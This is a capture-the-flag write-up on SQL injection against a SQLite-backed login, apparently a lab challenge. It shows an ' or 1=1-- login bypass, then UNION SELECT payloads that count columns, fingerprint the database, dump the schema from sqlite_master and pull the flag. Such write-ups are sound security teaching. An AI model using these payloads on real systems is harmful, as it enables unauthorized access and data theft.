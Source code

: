 ## More SQLi

A simple: ' or 1=1-- gets us past the login screen

![image](https://github.com/user-attachments/assets/71a46034-7e9a-42a7-81c6-2df9a1263778)

First we want to make see how many columns there are in the query:

' union select 1,2--

![image](https://github.com/user-attachments/assets/cdae028a-6898-4ef5-a367-ac858ec5758b)

' union select 1,2,3--

![image](https://github.com/user-attachments/assets/d77ed558-5faa-45fa-8700-48bc2a07cbea)

This shows that we need to have 3 columns in our query.

' union select 1,2,sqlite_version()--

![image](https://github.com/user-attachments/assets/5f6f4846-8a8d-41bb-9ef1-562b357b0e13)

This tells us that we are running sqlite, so we know what syntax to use to get the tables/column information.

' union select 1,2,sql from sqlite_master--

![image](https://github.com/user-attachments/assets/326b8114-cf92-48b3-9b0d-b410e72ec41b)

This shows the tables/columns that we are working with, looks like flag is in more_table.

' union select 1,2,flag from more_table--

![image](https://github.com/user-attachments/assets/5e490054-1abc-4327-bfab-8ee94543025b)

Overall a pretty standard UNION SELECT SQLi!

Sources: 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
